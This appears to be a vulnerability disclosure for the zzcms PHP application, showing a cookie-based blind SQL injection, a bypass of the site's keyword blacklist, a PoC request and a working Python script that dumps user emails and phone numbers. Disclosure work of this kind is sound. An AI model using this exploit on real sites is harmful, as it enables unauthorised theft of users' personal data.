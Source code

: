 # /user/top.php
First we can find sql operation in `/user/top.php`
```
function ShowUserSf(){
	if ($_COOKIE["UserName"]<>"" ){
		$sql="select groupname,grouppic from zzcms_usergroup where groupid=(select groupid from zzcms_user where username='".$_COOKIE["UserName"]."')";
        $rs=query($sql);
		$row=fetch_array($rs);
		$rownum=num_rows($rs);
		if ($rownum){
        $str= "<b>".$row["groupname"]."</b><img src='../".$row["grouppic"]."'> " ;
		}
 		   
		$sql="select groupid,totleRMB,startdate,enddate from zzcms_user where username='" .$_COOKIE["UserName"]. "'";
        $rs=query($sql);
		$row=fetch_array($rs);
		$rownum=num_rows($rs);
		if ($rownum){
			if ($row["groupid"]>1){
			$str=$str ."服务时间：".$row["startdate"]." 至 ".$row["enddate"];
			}elseif ($row["groupid"]==1){
			$str=$str . "<a href='../one/vipuser.php' target='_blank'>查看我的权限</a>";
			}
		}else{
			$str=$str . "用户不存在";
		}		
		
	}else{
	$str=$str. "您尚未登录";
	}
echo $str;			 
}
?>	
```

It seems vulnerable to boolean based blind sql injection since parameter `$_COOKIE["UserName"]` is not filterd

![]()

By finding usage, we can find `/user/ask.php` is one of pages who include `/user/top.php` 

```
<?php
include("top.php");
?>
...

}
```

In `/user/ask.php`
```
<?php
include("../inc/conn.php");
include("check.php");
?>
```

`check.php` is used to check whether visitor has logged in
```
<?php
if (!isset($_COOKIE["UserName"]) || !isset($_COOKIE["PassWord"])){
    echo "<script>location.href='/user/login.php';</script>";
}else{
    //verify username and password
}
?>
```
if the attacker submits cookies like `Cookie: UserName=foo`, without `PassWord`, only codes in `if` will be executed. However, codes in `if` merely echo javascript to html. As a result, the rest of codes in `ask.php` which use parameter `$_COOKIE["UserName"]` will still be executed.

In `/inc/conn.php`, we can find
```
include(zzcmsroot."/inc/stopsqlin.php");
```

and in `/inc/stopsqlin.php`
```
function stopsqlin($str){
if(!is_array($str)) {//有数组数据会传过来比如代理留言中的省份$_POST['province'][$i]
	$str=strtolower($str);//否则过过滤不全
	
	$sql_injdata = "";
	$sql_injdata= $sql_injdata."|".stopwords;
	$sql_injdata=CutFenGeXian($sql_injdata,"|");
	
    $sql_inj = explode("|",$sql_injdata);
	for ($i=0; $i< count($sql_inj);$i++){
		if (@strpos($str,$sql_inj[$i])!==false) {showmsg ("参数中含有非法字符 [".$sql_inj[$i]."] 系统不与处理");}
	}
}	
}
	
$r_url=strtolower($_SERVER["REQUEST_URI"]);
if (checksqlin=="Yes") {
if (strpos($r_url,"siteconfig.php")==0 && strpos($r_url,"label")==0 && strpos($r_url,"template.php")==0) {
foreach ($_GET as $get_key=>$get_var){ stopsqlin($get_var);} /* 过滤所有GET过来的变量 */      
foreach ($_POST as $post_key=>$post_var){ stopsqlin($post_var);	}/* 过滤所有POST过来的变量 */
foreach ($_COOKIE as $cookie_key=>$cookie_var){ stopsqlin($cookie_var);	}/* 过滤所有COOKIE过来的变量 */
foreach ($_REQUEST as $request_key=>$request_var){ stopsqlin($request_var);	}/* 过滤所有request过来的变量 */
}
}
?>
```
which means all parameters in `$_GET`, `$_POST`, `$_COOKIE`, `$_REQUEST` are filterd while blacklist--`stopwords` is defined in `/inc/config.php`

```
define('stopwords','select|update|and|or|delete|insert|truncate|char|into|iframe|script|得普利麻|易瑞沙|益赛普|赫赛汀|日达仙|百泌达|多吉美|拜科奇|赛美维|施多宁|派罗欣|妥塞敏|格列卫|特罗凯|手机窃听器|手枪') ;//网站禁用关键字
```

Although we can't use `select` and `or`, we can still query in the same table `zzcms_user`

![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/columns.png)

# POC
```
GET /user/ask.php HTTP/1.1
User-Agent: PostmanRuntime/7.25.0
Accept: */*
Cache-Control: no-cache
Postman-Token: 61080183-d3aa-4674-943d-dfb56440c9ac
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Connection: close
Cookie: UserName=' || '1'='1'#
```


![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/boolture.png)
![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/boolfalse.png)




# exp
```
import requests
import string

url = 'http://127.0.0.1/user/ask.php'
result = []


def get_column_by_id(uid, column):
    result = ''
    for x in range(50):
        flag = 1
        for i in string.ascii_letters + string.digits + '@.':
            cookies = {
                'UserName': f"' || {column} like '{result}{i}%' && id = {uid}#"
            }
            response = requests.get(url, cookies=cookies)
            # print(response.text)
            if "查看我的权限</a>)" in response.text:
                result += i
                break
            if i == '.':
                flag = 0

        if flag == 0:
            break

        print(f'[+] id: {uid}, {column}: ' + result)
    return result


for uid in range(1, 10):
    column_list = ['username','email','phone']
    tmp = [get_column_by_id(uid, i) for i in column_list]
    if '' not in tmp:
        result.append(tmp)

print(result)
```
Results

![](https://img2020.cnblogs.com/blog/1270588/202005/1270588-20200527003511095-404803236.png)
